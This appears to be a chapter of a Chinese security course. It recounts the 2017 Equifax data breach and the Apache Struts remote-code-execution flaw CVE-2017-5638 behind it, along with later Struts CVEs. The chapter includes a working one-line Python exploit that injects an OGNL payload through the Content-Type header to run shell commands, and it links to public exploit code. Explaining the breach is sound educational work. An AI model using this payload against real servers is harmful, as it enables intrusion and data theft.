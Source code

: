 # 03 | Equifax信息泄露始末

相信你一定有所耳闻，9 月份美国知名征信公司 Equifax 出现了大规模数据泄露事件，致使 1.43 亿美国用户及大量的英国和加拿大用户受到影响。今天，我就来跟你聊聊 Equifax 信息泄露始末，并对造成本次事件的原因进行简单的分析。

# Equifax 信息泄露始末

Equifax 日前确认，黑客利用了其系统中未修复的 Apache Struts 漏洞（CVE-2017-5638，2017 年 3 月 6 日曝光）来发起攻击，导致了最近这次影响恶劣的大规模数据泄露事件。

作为美国三大信用报告公司中历史最悠久的一家，Equifax 的主营业务是为客户提供美国、加拿大和其他多个国家的公民信用信息。保险公司就是其服务的主要客户之一，涉及生命、汽车、火灾、医疗保险等多个方面。

此外，Equifax 还提供入职背景调查、保险理赔调查，以及针对企业的信用调查等服务。由于 Equifax 掌握了多个国家公民的信用档案，包括公民的学前、学校经历、婚姻、工作、健康、政治参与等大量隐私信息，所以这次的信息泄露，影响面积很大，而且性质特别恶劣。

受这次信息泄露影响的美国消费者有 1.43 亿左右，另估计约有 4400 万的英国客户和大量加拿大客户受到影响。事件导致 Equifax 市值瞬间蒸发掉逾 30 亿美元。

根据《华尔街日报》（The Wall Street Journal）的观察，自 Equifax 在 9 月 8 日披露黑客进入该公司部分系统以来，全美联邦法院接到的诉讼已经超过百起。针对此次事件，Equifax 首席执行官理查德·史密斯（Richard Smith）表示，公司正在对整体安全操作进行全面彻底的审查。

事件发生之初，Equifax 在声明中指出，黑客是利用了某个“U.S. website application”中的漏洞获取文件。后经调查，黑客是利用了 Apache Struts 的 CVE-2017-5638 漏洞。

戏剧性的是，该漏洞于今年 3 月份就已被披露，其危险系数定为最高分 10 分，Apache 随后发布的 Struts 2.3.32 和 2.5.10.1 版本特针对此漏洞进行了修复。而 Equifax 在漏洞公布后的两个月内都没有升级 Struts 版本，导致 5 月份黑客利用这个漏洞进行攻击，泄露其敏感数据。

事实上，除了 Apache 的漏洞，黑客还使用了一些其他手段绕过 WAF（Web 应用程序防火墙）。有些管理面板居然位于 Shodan 搜索引擎上。更让人大跌眼镜的是，据研究人员分析，Equifax 所谓的“管理面板”都没有采取任何安保措施。安全专家布莱恩·克雷布斯（Brian Krebs）在其博客中爆料，Equifax 的一个管理面板使用的用户名和密码都是“admin”。

由于管理面板能被随意访问，获取数据库密码就轻而易举了——虽然管理面板会加密数据库密码之类的东西，但是密钥却和管理面板保存在了一起。虽然是如此重要的征信机构，但 Equifax 的安全意识之弱可见一斑。

据悉，Equifax 某阿根廷员工门户也泄露了 14000 条记录，包括员工凭证和消费者投诉。本次事件发生后，好事者列举了 Equifax 系统中的一系列漏洞，包括一年以前向公司报告的未修补的跨站脚本（XSS）漏洞，更将 Equifax 推向了风口浪尖。

# Apache Struts 漏洞相关

Apache Struts 是世界上最流行的 Java Web 服务器框架之一，它最初是 Jakarta 项目中的一个子项目，并在 2004 年 3 月成为 Apache 基金会的顶级项目。

Struts 通过采用 Java Servlet/JSP 技术，实现了基于 Java EE Web 应用的 MVC 设计模式的应用框架，也是当时第一个采用 MVC 模式的 Web 项目开发框架。随着技术的发展和认知的提升，Struts 的设计者意识到 Struts 的一些缺陷，于是有了重新设计的想法。

2006 年，另外一个 MVC 框架 WebWork 的设计者与 Struts 团队一起开发了新一代的 Struts 框架，它整合了 WebWork 与 Struts 的优点，同时命名为“Struts 2”，原来的 Struts 框架改名为 Struts 1。

因为两个框架都有强大的用户基础，所以 Struts 2 一发布就迅速流行开来。在 2013 年 4 月，Apache Struts 项目团队发布正式通知，宣告 Struts 1.x 开发框架结束其使命，并表示接下来官方将不会继续提供支持。自此 Apache Struts 1 框架正式退出历史舞台。

同期，Struts 社区表示他们将专注于推动 Struts 2 框架的发展。从这几年的版本发布情况来看，Struts 2 的迭代速度确实不慢，仅仅在 2017 年就发布了 9 个版本，平均一个月一个。

但从安全角度来看，Struts 2 可谓是漏洞百出，因为框架的功能基本已经健全，所以这些年 Struts 2 的更新和迭代基本也是围绕漏洞和 Bug 进行修复。仅从官方披露的安全公告中就可以看到，这些年就有 53 个漏洞预警，包括大家熟知的远程代码执行高危漏洞。

根据网络上一份未被确认的数据显示，中国的 Struts 应用分布在全球范围内排名第一，第二是美国，然后是日本，而中国没有打补丁的 Struts 的数量几乎是其他国家的总和。特别是在浙江、北京、广东、山东、四川等地，涉及教育、金融、互联网、通信等行业。

所以在今年 7 月，国家信息安全漏洞共享平台还发布过关于做好 Apache Struts 2 高危漏洞管理和应急工作的安全公告，大致意思是希望企业能够加强学习，提高安全认识，同时完善相关流程，协同自律。

而这次 Equifax 中招的漏洞编号是 CVE-2017-5638，官方披露的信息见下图。简单来说，这是一个 RCE 的远程代码执行漏洞，最初是被安恒信息的 Nike Zheng 发现的，并于 3 月 7 日上报。

![img](https://static001.geekbang.org/resource/image/00/cc/009ecfbac5741ea7ffd7fa3079a8c8cc.png)

从介绍中可以看出，此次漏洞的原因是 Apache Struts 2 的 Jakarta Multipart parser 插件存在远程代码执行漏洞，攻击者可以在使用该插件上传文件时，修改 HTTP 请求头中的 Content-Type 值来触发漏洞，最后远程执行代码。

说白了，就是在 Content-Type 注入 OGNL 语言，进而执行命令。代码如下（一行 Python 命令就可以执行服务器上的 shell 命令）：

import requests

requests.get("https://target", headers={"Connection": "close", "Accept": "*/*", "User-Agent": "Mozilla/5.0", "Content-Type": "%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"})

在 GitHub 上有相关的代码，链接为：https://github.com/mazen160/struts-pwn 或 https://github.com/xsscx/cve-2017-5638

注入点是在 JakartaMultiPartRequest.java 的 buildErrorMessage 函数中，这个函数里的 localizedTextUtil.findText 会执行 OGNL 表达式，从而导致命令执行（注：可以参看 Struts 两个版本的补丁“2.5.10.1 版补丁”“2.3.32 版补丁”），使客户受到影响。

因为默认情况下 Jakarta 是启用的，所以该漏洞的影响范围甚广。当时官方给出的解决方案是尽快升级到不受影响的版本，看来 Equifax 的同学并没有注意到，或者也没有认识到它的严重性。

另外，在 9 月 5 日和 7 日，Struts 官方又接连发布了几个严重级别的安全漏洞公告，分别是 CVE-2017-9804、CVE-2017-9805、CVE-2017-9793 和 CVE-2017-12611。

这里面最容易被利用的当属 CVE-2017-9805，它是由国外安全研究组织 lgtm.com 的安全研究人员发现的又一个远程代码执行漏洞。漏洞原因是 Struts 2 REST 插件使用带有 XStream 程序的 XStream Handler 进行未经任何代码过滤的反序列化操作，所以在反序列化 XML payloads 时就可能导致远程代码执行。

![img](https://static001.geekbang.org/resource/image/f8/02/f8a10b42faf789018e0a5dfadbbd0c02.png)

不过在 Apache 软件基金会的项目管理委员会的回应文章中，官方也对事故原因进行了分析和讨论。首先，依然不能确定泄露的源头是 Struts 的漏洞导致的。其次，如果确实是源于 Struts 的漏洞，那么原因“或是 Equifax 服务器未打补丁，使得一些更早期公布的漏洞被攻击者利用，或者是攻击者利用了一个目前尚未被发现的漏洞”。

根据推测，该声明提出黑客所使用的软件漏洞可能就是 CVE-2017-9805 漏洞，该漏洞虽然是在 9 月 4 日才由官方正式公布，但早在 7 月时就有人公布在网络上了，并且这个漏洞的存在已有 9 年。

相信通过今天的分享，你一定对 Equifax 的数据泄露始末及造成原因有了清楚的了解。欢迎您把你的收获和想法，分享给我。下篇文章中，我们将回顾一下互联网时代的其他大规模数据泄露事件，并结合这些事件给出应对方案和技术手段。